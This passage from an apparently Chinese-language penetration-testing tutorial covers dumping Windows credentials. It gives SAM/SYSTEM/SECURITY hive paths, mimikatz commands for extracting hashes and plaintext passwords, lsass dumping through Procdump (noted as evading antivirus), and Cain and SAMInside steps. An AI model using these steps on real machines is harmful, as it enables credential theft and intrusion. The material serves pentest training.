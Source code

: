 如果条件允许也可以使用 U 盘启动盘直接拷贝以下文件

```
C:\Windows\System32\config\SAMC:\Windows\System32\config\SYSTEMC:\Windows\System32\config\SECURITY
```

除此之外，使用一些漏洞也可以获取到 SAM、SYSTEM、SECURITY 文件，比如 CVE-2021-36934，具体可参考 [https://teamssix.com/210725-074847.html](https://teamssix.com/210725-074847.html)

### 获取 HASH

用 mimikatz 获取

```
mimikatz.exelsadump::sam /sam:sam.hiv /system:system.hiv
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210812181245.png)

用 cain 获取，找到 Cracker 里的 LM & NTLM Hash，点击加号，选择从 SAM 导入，选择 SAM 文件后，查看 SYSTEM 文件的 HEX，复制到 Boot Key 里，点击下一步即可查看。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210811162549.png)

cain 还可以直接查看明文密码，在 Decoders 里找到 LSA Secrets，导入 system.hiv 和 security.hiv 就可以看到明文的密码了。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210811163002.png)

用 SAMInside 读取，直接在 File 菜单中选择导入 SAM 和 SYSTEM 文件即可

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210811161122.png)

## 7、lsass.dmp 文件

### 导出文件

任务管理器导出 lsass.dmp 文件，在任务管理器中找到 lsass.exe 右击选择创建转储文件即可。

或者使用 Procdump 导出 lsass.dmp 文件，Procdump 是微软官方发布的工具，因此基本不会被杀软拦截，下载地址：[https://download.sysinternals.com/files/Procdump.zip](https://download.sysinternals.com/files/Procdump.zip)

```
procdump -accepteula -ma lsass.exe lsass.DMP
```

### 获取 HASH

使用 mimikatz 可获取 lsass.dmp 文件里的 hash 以及明文密码值

```
mimikatz.exesekurlsa::minidump lsass.DMPsekurlsa::logonPasswords full
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210811172353.png)

## 8、ntds.dit 文件
